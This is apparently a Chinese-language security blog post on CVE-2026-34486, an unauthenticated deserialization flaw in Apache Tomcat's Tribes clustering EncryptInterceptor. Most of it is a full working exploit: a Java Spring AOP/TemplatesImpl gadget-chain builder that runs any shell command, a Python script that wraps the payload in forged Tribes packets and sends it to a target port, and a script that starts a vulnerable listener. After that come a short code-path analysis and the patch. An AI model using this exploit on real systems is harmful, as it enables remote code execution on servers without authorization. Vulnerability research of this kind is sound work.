

+++
title= "CVE-2026-34486"
slug= "cve-2026-34486"
description= "看我装糖阴他一手🙈"
date= "2026-04-15T22:20:53+08:00"
lastmod= "2026-04-15T22:20:53+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

一开始是 QAX 微信公众号发了推文，群友转发推文，并提及“Tomcat 又又又又 RCE 了”，但是我一看怎么评分才7.5 分，那么他肯定是有条件的 RCE，并且条件还不小🙂‍↔️

> 在 2026 年 3 月 13 日，一个单一的提交被应用到所有三个活跃分支，引入了回归。
>
> | Branch 分支 | Vulnerable 易受攻击 | Last safe 最后一个安全版本 | Fix commit 修复提交 |
> | :---------- | :------------------ | :------------------------- | :------------------ |
> | 11.0.x      | 11.0.20             | 11.0.18                    | `1fab40cc`          |
> | 10.1.x      | 10.1.53             | 10.1.52                    | `776e12b3`          |
> | 9.0.x       | 9.0.116             | 9.0.115                    | `776e12b3`          |
>
> Tomcat 8.5.x 不受影响。该分支中不存在 `EncryptInterceptor` 。

整体思路

1. 往 Tribes 端口发一个没加密的包
2. `EncryptInterceptor` 解密失败
3. 但漏洞版本还是继续 `super.messageReceived(msg)`
4. `GroupChannel` 拿到原始消息后照样反序列化
5. 只要 classpath 上有合适 gadget，就能 RCE

## Exp

这里我使用的 spring 原生利用链

```java
import java.io.*;
import java.lang.reflect.*;
import java.nio.charset.StandardCharsets;
import java.util.*;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.*;
import org.springframework.aop.framework.*;
import org.springframework.aop.support.NameMatchMethodPointcutAdvisor;
import org.springframework.aop.target.SingletonTargetSource;
import javassist.*;
import sun.misc.Unsafe;

class Exp {
    static final String DEF = "open -a Calculator";
    static final String PKG = "die.verwandlung";

    public static void main(String[] args) throws Exception {
        String cmd = args.length > 0 ? new String(Base64.getDecoder().decode(args[0]), StandardCharsets.UTF_8) : "";
        String pad = args.length > 1 ? new String(Base64.getDecoder().decode(args[1]), StandardCharsets.UTF_8) : "";
        if (cmd.isEmpty()) cmd = DEF;
        System.out.print(Base64.getEncoder().encodeToString(build(cmd, pad)));
    }

    static byte[] build(String cmd, String pad) throws Exception {
        Object tmpl = tmpl(cmd, pad);
        var factory = new SingletonAspectInstanceFactory(tmpl);
        var advice = (AspectJAroundAdvice) alloc(AspectJAroundAdvice.class);
        put(advice, "aspectInstanceFactory", factory);
        put(advice, "declaringClass", Templates.class);
        put(advice, "methodName", "getOutputProperties");
        put(advice, "parameterTypes", new Class[0]);
        var pointcut = (AspectJExpressionPointcut) alloc(AspectJExpressionPointcut.class);
        put(pointcut, "expression", "");
        put(advice, "pointcut", pointcut);
        putInt(advice, "joinPointArgumentIndex", -1);
        putInt(advice, "joinPointStaticPartArgumentIndex", -1);
        var advisor = new NameMatchMethodPointcutAdvisor(advice);
        advisor.setMappedName("toString");
        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);
        var ctor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getDeclaredConstructor(AdvisedSupport.class);
        ctor.setAccessible(true);
        var as = new AdvisedSupport();
        as.setTargetSource(new SingletonTargetSource("x" + pad));
        put(as, "advisors", advisors);
        put(as, "advisorChainFactory", new DefaultAdvisorChainFactory());
        InvocationHandler h = (InvocationHandler) ctor.newInstance(as);
        Object proxy = Proxy.newProxyInstance(Exp.class.getClassLoader(), new Class[]{Map.class}, h);
        var list = new EventListenerList();
        var um = new UndoManager();
        ((Vector) get(um, "edits")).add(proxy);
        put(list, "listenerList", new Object[]{Class.class, um});
        var bo = new ByteArrayOutputStream();
        var oo = new ObjectOutputStream(bo);
        oo.writeObject(list);
        oo.close();
        return bo.toByteArray();
    }

    static Object tmpl(String cmd, String pad) throws Exception {
        var pool = ClassPool.getDefault();
        pool.insertClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        pool.insertClassPath(new LoaderClassPath(ClassLoader.getSystemClassLoader()));
        var sup = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        var evil = pool.makeClass(PKG + ".Evil" + System.nanoTime());
        evil.setSuperclass(sup);
        evil.addConstructor(CtNewConstructor.defaultConstructor(evil));
        evil.makeClassInitializer().insertAfter(init(cmd, pad));
        evil.addMethod(CtNewMethod.make("public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM d, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] h) {}", evil));
        evil.addMethod(CtNewMethod.make("public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM d, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator i, com.sun.org.apache.xml.internal.serializer.SerializationHandler h) {}", evil));
        byte[] evilBytes = evil.toBytecode();
        evil.detach();
        var stub = pool.makeClass(PKG + ".Stub" + System.nanoTime());
        byte[] stubBytes = stub.toBytecode();
        stub.detach();
        Object t = alloc(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"));
        put(t, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        put(t, "_name", "Pwnd" + pad);
        putInt(t, "_transletIndex", 0);
        Object f = alloc(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl"));
        put(f, "_packageName", PKG);
        putBool(f, "_isNotSecureProcessing", true);
        put(t, "_tfactory", f);
        return t;
    }

    static String init(String cmd, String pad) {
        String s = cmd + " # " + Base64.getEncoder().encodeToString(pad.getBytes(StandardCharsets.UTF_8));
        return "{try{new java.lang.ProcessBuilder(new java.lang.String[]{\"/bin/sh\",\"-c\"," + q(s) + "}).start();}catch(Exception e){e.printStackTrace();}}";
    }

    static String q(String s) {
        return '"' + s.replace("\\", "\\\\").replace("\"", "\\\"").replace("\n", "\\n").replace("\r", "\\r").replace("\t", "\\t") + '"';
    }

    static Unsafe u() throws Exception { Field f = Unsafe.class.getDeclaredField("theUnsafe"); f.setAccessible(true); return (Unsafe) f.get(null); }
    static Object alloc(Class<?> c) throws Exception { return u().allocateInstance(c); }
    static Field field(Class<?> c, String n) throws Exception { while (c != null) { try { return c.getDeclaredField(n); } catch (NoSuchFieldException e) { c = c.getSuperclass(); } } throw new NoSuchFieldException(n); }
    static void put(Object o, String n, Object v) throws Exception { u().putObject(o, u().objectFieldOffset(field(o.getClass(), n)), v); }
    static void putInt(Object o, String n, int v) throws Exception { u().putInt(o, u().objectFieldOffset(field(o.getClass(), n)), v); }
    static void putBool(Object o, String n, boolean v) throws Exception { u().putBoolean(o, u().objectFieldOffset(field(o.getClass(), n)), v); }
    static Object get(Object o, String n) throws Exception { return u().getObject(o, u().objectFieldOffset(field(o.getClass(), n))); }
}

```

exp.py 发包

```python
#!/usr/bin/env python3
import argparse, base64, secrets, socket, struct, subprocess, sys, time
from pathlib import Path

M2 = Path.home() / '.m2' / 'repository'
BASE = [
    'org.springframework:spring-aop:6.1.5',
    'org.springframework:spring-beans:6.1.5',
    'org.springframework:spring-core:6.1.5',
    'org.springframework:spring-jcl:6.1.5',
    'org.aspectj:aspectjweaver:1.9.21',
    'org.javassist:javassist:3.30.2-GA',
]
START = b'FLT2002'
END = b'TLF2003'
MBR_BEGIN = b'TRIBES-B\x01\x00'
MBR_END = b'TRIBES-E\x01\x00'


def jar(coord: str) -> str:
    g, a, v = coord.split(':')
    path = M2 / g.replace('.', '/') / a / v / f'{a}-{v}.jar'
    if not path.exists():
        subprocess.run(['mvn', '-q', 'dependency:get', f'-Dartifact={coord}'], check=True)
    return str(path)


def classpath(version: str) -> str:
    coords = [
        f'org.apache.tomcat:tomcat-tribes:{version}',
        f'org.apache.tomcat:tomcat-juli:{version}',
        *BASE,
    ]
    return ':'.join(jar(c) for c in coords)


def run_java(java_file: str, cp: str, cmd: str, pad: str) -> bytes:
    out = subprocess.run(
        [
            'java', '--class-path', cp, java_file,
            base64.b64encode(cmd.encode()).decode(),
            base64.b64encode(pad.encode()).decode(),
        ],
        check=True, capture_output=True, text=True,
    )
    return base64.b64decode(out.stdout.strip())


def payload(java_file: str, cp: str, cmd: str) -> tuple[bytes, str]:
    for i in range(65):
        pad = 'A' * i
        data = run_java(java_file, cp, cmd, pad)
        if (len(data) - 16) % 16 != 0:
            return data, pad
    raise SystemExit('no valid padding found')


def mbr(host: str) -> bytes:
    ip = socket.inet_aton(socket.gethostbyname(host))
    body = b''.join([
        struct.pack('>q', 1000),
        struct.pack('>i', 31337),
        struct.pack('>i', -1),
        struct.pack('>i', -1),
        bytes([len(ip)]), ip,
        struct.pack('>i', 0),
        struct.pack('>i', 0),
        b'\x00' * 16,
        struct.pack('>i', 0),
    ])
    return MBR_BEGIN + struct.pack('>i', len(body)) + body + MBR_END


def packet(data: bytes, fake_host: str) -> bytes:
    uid = secrets.token_bytes(16)
    msg = b''.join([
        struct.pack('>i', 0),
        struct.pack('>q', int(time.time() * 1000)),
        struct.pack('>i', len(uid)), uid,
        struct.pack('>i', len(mbr(fake_host))), mbr(fake_host),
        struct.pack('>i', len(data)), data,
    ])
    return START + struct.pack('>i', len(msg)) + msg + END


def main() -> int:
    ap = argparse.ArgumentParser(description='通用 Tribes sender；换链子只改 exp.java')
    ap.add_argument('--host', default='127.0.0.1')
    ap.add_argument('--port', type=int, default=4000)
    ap.add_argument('--version', default='9.0.116')
    ap.add_argument('--command', default='')
    ap.add_argument('--java-file', default=str(Path(__file__).with_name('exp.java')))
    ap.add_argument('--fake-member-host', default='127.0.0.1')
    ap.add_argument('--print-payload-only', action='store_true')
    a = ap.parse_args()

    cp = classpath(a.version)
    data, pad = payload(a.java_file, cp, a.command)
    if a.print_payload_only:
        print(base64.b64encode(data).decode(), end='')
        return 0

    with socket.create_connection((a.host, a.port), timeout=5) as s:
        p = packet(data, a.fake_member_host)
        s.sendall(p)

    print(f'[exploit] sent {len(p)} bytes to {a.host}:{a.port}')
    print(f'[exploit] serialized gadget size={len(data)}, (len-16) mod 16 = {(len(data)-16)%16}')
    print(f'[exploit] java_file={Path(a.java_file).resolve()}')
    print(f'[exploit] padding_length={len(pad)}')
    print(f'[exploit] command={a.command or "<exp.java default>"}')
    return 0


if __name__ == '__main__':
    raise SystemExit(main())


    
## python3 exp.py --version 9.0.116 --host 127.0.0.1 --port 4000 --java-file exp.java
```

使用 start.sh 启动 Tomcat

```sh
#!/usr/bin/env bash
set -euo pipefail

VERSION="${1:-9.0.116}"
HOST="${HOST:-127.0.0.1}"
PORT="${PORT:-4000}"
KEY="${KEY:-00112233445566778899aabbccddeeff}"
M2="$HOME/.m2/repository"

jar() {
  local coord="$1" g a v path
  IFS=':' read -r g a v <<< "$coord"
  path="$M2/$(tr . / <<< "$g")/$a/$v/$a-$v.jar"
  [[ -f "$path" ]] || mvn -q dependency:get -Dartifact="$coord" >/dev/null
  printf '%s' "$path"
}

CP="$(jar org.apache.tomcat:tomcat-tribes:${VERSION}):$(jar org.apache.tomcat:tomcat-juli:${VERSION}):$(jar org.springframework:spring-aop:6.1.5):$(jar org.springframework:spring-beans:6.1.5):$(jar org.springframework:spring-core:6.1.5):$(jar org.springframework:spring-jcl:6.1.5):$(jar org.aspectj:aspectjweaver:1.9.21)"
TMPDIR="$(mktemp -d /tmp/cve-2026-34486-start.XXXXXX)"
TMP="$TMPDIR/StartVictim.java"
trap 'rm -rf "$TMPDIR"' EXIT

cat > "$TMP" <<'JAVA'
import org.apache.catalina.tribes.Channel;
import org.apache.catalina.tribes.group.GroupChannel;
import org.apache.catalina.tribes.group.interceptors.EncryptInterceptor;
import org.apache.catalina.tribes.transport.Constants;
import org.apache.catalina.tribes.transport.ReplicationTransmitter;
import org.apache.catalina.tribes.transport.nio.NioReceiver;
import org.apache.catalina.tribes.transport.nio.PooledParallelSender;

class StartVictim {
    public static void main(String[] args) throws Exception {
        String bind = args[0];
        int port = Integer.parseInt(args[1]);
        String key = args[2];
        GroupChannel channel = new GroupChannel();
        NioReceiver receiver = new NioReceiver();
        receiver.setAddress(bind);
        receiver.setPort(port);
        receiver.setAutoBind(0);
        receiver.setSelectorTimeout(5000);
        receiver.setMaxThreads(4);
        receiver.setMinThreads(1);
        receiver.setRxBufSize(Constants.DEFAULT_CLUSTER_MSG_BUFFER_SIZE);
        receiver.setTxBufSize(Constants.DEFAULT_CLUSTER_ACK_BUFFER_SIZE);
        PooledParallelSender sender = new PooledParallelSender();
        sender.setTimeout(5000);
        sender.setMaxRetryAttempts(1);
        sender.setRxBufSize(Constants.DEFAULT_CLUSTER_MSG_BUFFER_SIZE);
        sender.setTxBufSize(Constants.DEFAULT_CLUSTER_ACK_BUFFER_SIZE);
        ReplicationTransmitter transmitter = new ReplicationTransmitter();
        transmitter.setTransport(sender);
        channel.setChannelReceiver(receiver);
        channel.setChannelSender(transmitter);
        EncryptInterceptor enc = new EncryptInterceptor();
        enc.setEncryptionKey(key);
        channel.addInterceptor(enc);
        Runtime.getRuntime().addShutdownHook(new Thread(() -> {
            try { channel.stop(Channel.DEFAULT); } catch (Exception ignored) {}
        }));
        channel.start(Channel.SND_RX_SEQ | Channel.SND_TX_SEQ);
        System.out.println("[victim] version=" + System.getProperty("tomcat.version", "unknown") + " listening on " + bind + ":" + port);
        while (true) Thread.sleep(1000L);
    }
}
JAVA

echo "[+] version=${VERSION} host=${HOST} port=${PORT}"
javac -cp "$CP" -d "$TMPDIR" "$TMP"
java -Dtomcat.version="${VERSION}" -cp "$CP:$TMPDIR" StartVictim "$HOST" "$PORT" "$KEY"


# ./start.sh 9.0.116
# ./start.sh 10.1.53
# ./start.sh 11.0.20
```



## 分析利用链路

1. `ReceiverBase.messageDataReceived()`
2. `ChannelCoordinator.messageReceived()`
3. `EncryptInterceptor.messageReceived()`
4. `GroupChannel.messageReceived()`
5. `XByteBuffer.deserialize()`
6. `ObjectInputStream.readObject()`

依次跟进看看

```java
try {
    data = encryptionManager.decrypt(data);
    xbb.clear();
    xbb.append(data, 0, data.length);
} catch (GeneralSecurityException gse) {
    log.error(...);
}
super.messageReceived(msg);
```

没有直接进入块，这种典型的处理方式肯定是不安全的，所以哪怕前面解密失败了，消息还是会继续往下走，那么修复也很简单，放进 try 块即可

```java
public void messageReceived(ChannelMessage msg) {
    try {
        byte[] data = msg.getMessage().getBytes();
        data = encryptionManager.decrypt(data);

        XByteBuffer xbb = msg.getMessage();
        xbb.clear();
        xbb.append(data, 0, data.length);

        super.messageReceived(msg);
    } catch (GeneralSecurityException gse) {
        log.error(sm.getString("encryptInterceptor.decrypt.failed"), gse);
    }
}
```

然后的话因为 `GroupChannel.messageReceived()` 里面对普通消息的处理很直接，如果不是 `BYTE_MESSAGE`，就调用 `XByteBuffer.deserialize(...)`，而`XByteBuffer.deserialize(...)` 里面本质上就是：

```java
new ObjectInputStream(instream).readObject();
```

也就成功反序列化了


>https://www.striga.ai/research/tomcat-tribes-unauth-rce
>
>https://baozongwi.xyz/p/hkcertctf-2025/#netwatcher

